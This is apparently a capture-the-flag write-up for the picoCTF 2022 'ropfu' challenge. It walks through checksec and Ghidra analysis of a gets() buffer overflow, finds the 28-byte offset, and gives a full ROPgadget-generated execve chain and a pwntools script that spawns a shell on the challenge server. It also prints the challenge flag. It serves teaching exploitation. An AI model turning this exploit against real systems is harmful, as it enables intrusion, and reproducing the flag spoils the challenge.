


Hello fellow hackers! Today we are attempting to solve the [ropfu](https://play.picoctf.org/practice/challenge/292?category=6&originalEvent=70&page=1) challenge from picoCTF 2022. This challenge consists in exploiting a buffer overflow vulnerability using Return Oriented Programming to spawn a shell.

<!--truncate-->


## Getting Started

### Preliminary Static Analysis

The `file` binary is run on the file to obtain more information on the executable. It is a non-stripped statically-linked 32-bit executable built for GNU/Linux.

```bash
file vuln
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, BuildID[sha1]=232215a502491a549a155b1a790de97f0c433482, for GNU/Linux 3.2.0, not stripped
```

The security mechanisms are assessed using the `checksec` script.

```bash
checksec vuln
[*] '/home/kali/ctf/picoCTF_2022/ropfu/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

The result is analyzed below.

- `Partial RELRO`: the GOT and PLT are partially marked as read-only;
- `Canary found`: a stack canary is a feature that prevents buffer overflow attacks by adding a random value between the function return address and the function stack and checking this value before the function returns;
- `NX disabled`: the stack is not marked as non-executable;
- `No PIE`: the binary is not loaded at a different address in memory every time it is run;
- `Has RWX segments`: some regions of the memory are marked with read write and execute permissions.

### Preliminary Dynamic Analysis

The file is marked as executable and run. The program takes a string of characters from stdin and exits.

```bash
chmod +x vuln
./vuln
How strong is your ROP-fu? Snatch the shell from my hand, grasshopper!
very strong
```

This challenge is likely to be a buffer overflow attack. Trying to pass a larger string causes the program to terminate with segmentation fault.

```bash
python3 -c 'print("A"*200)' | ./vuln     
How strong is your ROP-fu? Snatch the shell from my hand, grasshopper!
zsh: done                python3 -c 'print("A"*200)' | 
zsh: segmentation fault  ./vuln
```

## Reversing with Ghidra

The binary is opened in the reverse engineering software [Ghidra](https://ghidra-sre.org/) and analyzed with the default options. The external library functions are included in the binary as it is statically linked. As the debugging symbols have not been removed, the main function may be found by simply looking at the function tree.

### The `main` function

The `main` function simply calls the `vuln` function.

### The `vuln` function

The `vuln` function pushes a 20 bytes buffer onto the stack and fetches user input with the `gets` function. The `gets` function is vulnerable to buffer overflow attacks as it does not restrict the input size.

## Exploitation

As the challenge name and the large amount of functions in the binary suggest, the buffer overflow vulnerability can be exploited using Return Oriented Programming to spawn a shell on the target system.

### Return Address Offset

The first step consists in finding the number of bytes between the start of the input buffer and the start of the function return address. This can be done using GDB or Ghidra.

#### Using GDB

We open the binary in GDB with the [Peda](https://github.com/longld/peda) plugin. Andreas P. wrote an [article](https://infosecwriteups.com/pwndbg-gef-peda-one-for-all-and-all-for-one-714d71bf36b8) on how to configure your system for Pwndbg, GEF and Peda.

The steps to find the offset of the function return address are described below.

1. The size of the input buffer is 20 bytes. A pattern of 50 characters is created using the `pattern create 50 pat.txt` command, which should be enough to reach the function return address.
2. The pattern is fed into the program which causes a segmentation fault: `r < pat.txt`.
3. GDB shows the value of the registers when the program errors out. The instruction pointer EIP has the value `AA;A`. The `pattern offset AA;A` command is used to find the offset in the pattern. Therefore, the payload must be padded with 28 bytes to be executed when the function returns.





#### Using Ghidra

The offset of the function return address may also be inferred from the structure of the stack of the `vuln` function. The input buffer starts at address `-0x1c` from the beginning of the stack (figure below).


In order to determine the number of bytes between the start of the buffer and the start of the return address, a good understanding of the `call` instruction is required. When the `call vuln` instruction is executed, the address of the instruction immediately following it, that is `08049e1a mov eax, 0x0`, is pushed onto the stack. Then, the control is transferred to the called subroutine.

Hence the return address is located just before the function stack, that is `0x1c` or 28 bytes from the start of the input buffer.

### ROP Payload

Return Oriented Programming (ROP) takes advantage of existing code sequences, called _gadgets_, already present in the program's memory space. A gadget is a short sequence of assembly instructions that ends with a `ret` instruction, allowing control to be returned to the calling code. By chaining together these gadgets, the program's control flow may be manipulated to, for instance, execute arbitrary commands by spawning `/bin/sh`.

Different utilities are available to extract potential gadgets from a binary. [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) is used in the example below to list all potential gadgets in the binary.

```bash
$ ROPgadget --binary vuln                                     
Gadgets information
============================================================
0x0807a871 : aaa ; add dword ptr [ebx], eax ; jmp 0x807a69f
0x0807bc29 : aaa ; add dword ptr [ebx], eax ; jmp 0x807ba43
0x080af7d4 : aaa ; add esp, 0x2c ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080976a2 : aaa ; das ; add esi, 1 ; mov dword ptr [esp], edi ; jmp 0x80974e1
0x08080502 : aaa ; je 0x8080510 ; pop ebx ; pop esi ; pop edi ; ret
0x0806f65f : aaa ; jmp 0x806f3ce
0x0806f4ca : aaa ; jmp 0x806f3da
0x0809d83a : aaa ; jmp 0x809d79c
0x080510fa : aaa ; lea ebx, [ebp + 1] ; mov eax, ecx ; jmp 0x8051115
0x0805a224 : aaa ; mov ebx, esi ; cmp dl, bl ; jne 0x805a249 ; jmp 0x805a2f8
0x0805a2c7 : aaa ; mov ecx, esi ; cmp dl, cl ; jne 0x805a2e9 ; jmp 0x805a2f8
0x08059d25 : aaa ; push ebx ; add byte ptr [eax], al ; add esp, 0x10 ; jmp 0x8059d04
0x08057238 : aaa ; sub dword ptr [ebx], 1 ; jmp 0x80571e4
<... SNIP ...>
0x0807dd08 : xor esi, esi ; xor ecx, ecx ; jmp 0x807dd24
0x08059be5 : xor esi, esi ; xor edi, edi ; jmp 0x8059a0e
0x0805cae9 : xor esi, esi ; xor edx, edx ; jmp 0x805cbab
0x0809bd1e : xor esi, esi ; xor edx, edx ; jmp 0x809aa1b
0x080b21d9 : xor esi, esi ; xor edx, edx ; jmp 0x80b2034
0x080b1ff8 : xor esi, esi ; xor edx, edx ; xor eax, eax ; jmp 0x80b200e
0x08090ec0 : xsetbv ; cmp ecx, dword ptr [esp + 4] ; jbe 0x8090eb0 ; jmp 0x8090db1

Unique gadgets found: 31928
```

The same tool can also be used to generate a gadget chain to spawn a shell.

```bash
ROPgadget --binary vuln --ropchain --silent --badbytes "0a"

ROP chain generation
===========================================================

- Step 1 -- Write-what-where gadgets

        [+] Gadget found: 0x80590f2 mov dword ptr [edx], eax ; ret
        [+] Gadget found: 0x80583b9 pop edx ; pop ebx ; ret
        [+] Gadget found: 0x80b073a pop eax ; ret
        [+] Gadget found: 0x804fb80 xor eax, eax ; ret

- Step 2 -- Init syscall number gadgets

        [+] Gadget found: 0x804fb80 xor eax, eax ; ret
        [+] Gadget found: 0x808054e inc eax ; ret

- Step 3 -- Init syscall arguments gadgets

        [+] Gadget found: 0x8049022 pop ebx ; ret
        [+] Gadget found: 0x8049e29 pop ecx ; ret
        [+] Gadget found: 0x80583b9 pop edx ; pop ebx ; ret

- Step 4 -- Syscall gadget

        [+] Gadget found: 0x804a3c2 int 0x80

- Step 5 -- Build the ROP chain

#!/usr/bin/env python3
# execve generated by ROPgadget

from struct import pack

# Padding goes here
p = b''

p += pack('<I', 0x080583b9) # pop edx ; pop ebx ; ret
p += pack('<I', 0x080e5060) # @ .data
        p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x080b073a) # pop eax ; ret
p += b'/bin'
p += pack('<I', 0x080590f2) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080583b9) # pop edx ; pop ebx ; ret
p += pack('<I', 0x080e5064) # @ .data + 4
        p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x080b073a) # pop eax ; ret
p += b'//sh'
p += pack('<I', 0x080590f2) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080583b9) # pop edx ; pop ebx ; ret
p += pack('<I', 0x080e5068) # @ .data + 8
        p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x0804fb80) # xor eax, eax ; ret
p += pack('<I', 0x080590f2) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x08049022) # pop ebx ; ret
p += pack('<I', 0x080e5060) # @ .data
p += pack('<I', 0x08049e29) # pop ecx ; ret
p += pack('<I', 0x080e5068) # @ .data + 8
p += pack('<I', 0x080583b9) # pop edx ; pop ebx ; ret
p += pack('<I', 0x080e5068) # @ .data + 8
        p += pack('<I', 0x080e5060) # padding without overwrite ebx
p += pack('<I', 0x0804fb80) # xor eax, eax ; ret
p += pack('<I', 0x0808054e) # inc eax ; ret
p += pack('<I', 0x0808054e) # inc eax ; ret
p += pack('<I', 0x0808054e) # inc eax ; ret
p += pack('<I', 0x0808054e) # inc eax ; ret
p += pack('<I', 0x0808054e) # inc eax ; ret
p += pack('<I', 0x0808054e) # inc eax ; ret
p += pack('<I', 0x0808054e) # inc eax ; ret
p += pack('<I', 0x0808054e) # inc eax ; ret
p += pack('<I', 0x0808054e) # inc eax ; ret
p += pack('<I', 0x0808054e) # inc eax ; ret
p += pack('<I', 0x0808054e) # inc eax ; ret
p += pack('<I', 0x0804a3c2) # int 0x80
```

- `--binary vuln`: specify the binary `vuln`
- `--ropchain`: generate gadget chain
- `--silent`: do not print all gadgets, only necessary
- `--badbytes "0a"`: do not include any `0a` bytes. This is because `0a` is the ASCII encoding for the `\n` new line character, and the C `gets` function is implemented to read until a "newline character is read or when the end-of-file is reached, whichever comes first" ([tutorialspoint](https://www.tutorialspoint.com/c_standard_library/c_function_gets.htm)).

### Python Exploit

The gadget chain generated above is padded with 28 bytes to reach the return address. The script below connects to the remote server and sends the payload which spawns an interactive shell.

```python
#!/usr/bin/env python3

from struct import pack
from pwn import process, remote, log, fit, hexdump

def get_rop(overflow_offset):
    # execve generated by ROPgadget:
    # ROPgadget --binary vuln --ropchain --silent --badbytes "0a"

    # Padding goes here
    p = b''

    p += pack('<I', 0x080583b9) # pop edx ; pop ebx ; ret
    p += pack('<I', 0x080e5060) # @ .data
    p += pack('<I', 0x41414141) # padding
    p += pack('<I', 0x080b073a) # pop eax ; ret
    p += b'/bin'
    p += pack('<I', 0x080590f2) # mov dword ptr [edx], eax ; ret
    p += pack('<I', 0x080583b9) # pop edx ; pop ebx ; ret
    p += pack('<I', 0x080e5064) # @ .data + 4
    p += pack('<I', 0x41414141) # padding
    p += pack('<I', 0x080b073a) # pop eax ; ret
    p += b'//sh'
    p += pack('<I', 0x080590f2) # mov dword ptr [edx], eax ; ret
    p += pack('<I', 0x080583b9) # pop edx ; pop ebx ; ret
    p += pack('<I', 0x080e5068) # @ .data + 8
    p += pack('<I', 0x41414141) # padding
    p += pack('<I', 0x0804fb80) # xor eax, eax ; ret
    p += pack('<I', 0x080590f2) # mov dword ptr [edx], eax ; ret
    p += pack('<I', 0x08049022) # pop ebx ; ret
    p += pack('<I', 0x080e5060) # @ .data
    p += pack('<I', 0x08049e29) # pop ecx ; ret
    p += pack('<I', 0x080e5068) # @ .data + 8
    p += pack('<I', 0x080583b9) # pop edx ; pop ebx ; ret
    p += pack('<I', 0x080e5068) # @ .data + 8
    p += pack('<I', 0x080e5060) # padding without overwrite ebx
    p += pack('<I', 0x0804fb80) # xor eax, eax ; ret
    p += pack('<I', 0x0808054e) # inc eax ; ret
    p += pack('<I', 0x0808054e) # inc eax ; ret
    p += pack('<I', 0x0808054e) # inc eax ; ret
    p += pack('<I', 0x0808054e) # inc eax ; ret
    p += pack('<I', 0x0808054e) # inc eax ; ret
    p += pack('<I', 0x0808054e) # inc eax ; ret
    p += pack('<I', 0x0808054e) # inc eax ; ret
    p += pack('<I', 0x0808054e) # inc eax ; ret
    p += pack('<I', 0x0808054e) # inc eax ; ret
    p += pack('<I', 0x0808054e) # inc eax ; ret
    p += pack('<I', 0x0808054e) # inc eax ; ret
    p += pack('<I', 0x0804a3c2) # int 0x80

    return fit({overflow_offset: p})

def main():
    # proc = process('./ropfu')
    proc = remote("saturn.picoctf.net", 55346)

    offset = 28
    payload = get_rop(offset)

    log.info("Sending payload: \n{}".format(hexdump(payload)))
    proc.sendlineafter(b'grasshopper!\n', payload)

    proc.interactive()


if __name__ == "__main__":
    main()
```

Running the script gives:

```bash
python3 solve.py                    
[+] Opening connection to saturn.picoctf.net on port 55346: Done
[*] Sending payload: 
    00000000  61 61 61 61  62 61 61 61  63 61 61 61  64 61 61 61  │aaaa│baaa│caaa│daaa│
    00000010  65 61 61 61  66 61 61 61  67 61 61 61  b9 83 05 08  │eaaa│faaa│gaaa│····│
    00000020  60 50 0e 08  41 41 41 41  3a 07 0b 08  2f 62 69 6e  │`P··│AAAA│:···│/bin│
    00000030  f2 90 05 08  b9 83 05 08  64 50 0e 08  41 41 41 41  │····│····│dP··│AAAA│
    00000040  3a 07 0b 08  2f 2f 73 68  f2 90 05 08  b9 83 05 08  │:···│//sh│····│····│
    00000050  68 50 0e 08  41 41 41 41  80 fb 04 08  f2 90 05 08  │hP··│AAAA│····│····│
    00000060  22 90 04 08  60 50 0e 08  29 9e 04 08  68 50 0e 08  │"···│`P··│)···│hP··│
    00000070  b9 83 05 08  68 50 0e 08  60 50 0e 08  80 fb 04 08  │····│hP··│`P··│····│
    00000080  4e 05 08 08  4e 05 08 08  4e 05 08 08  4e 05 08 08  │N···│N···│N···│N···│
    *
    000000a0  4e 05 08 08  4e 05 08 08  4e 05 08 08  c2 a3 04 08  │N···│N···│N···│····│
    000000b0
[*] Switching to interactive mode
$ ls
flag.txt
vuln
$ cat flag.txt
picoCTF{5n47ch_7h3_5h311_1b5a4b40}
```

Pwned!

